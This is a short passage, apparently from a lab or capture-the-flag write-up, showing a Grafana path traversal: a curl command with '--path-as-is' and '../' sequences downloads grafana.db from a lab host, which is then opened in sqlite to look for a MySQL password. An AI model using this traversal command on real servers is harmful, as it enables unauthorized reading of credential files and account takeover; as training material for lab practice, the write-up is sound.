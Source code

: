 ```
curl --path-as-is http://10.10.11.183:3000/public/plugins/text/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```

![](./IMG/18.png)

![](./IMG/19.png)

> Using sqlite to open db file
> Keep finding anything suscpicious from db file 

```
.tables  <--  SQLite command check existing table
```

![](./IMG/20.png)
> Find 2 strings, and it has highly possible is mysql  password
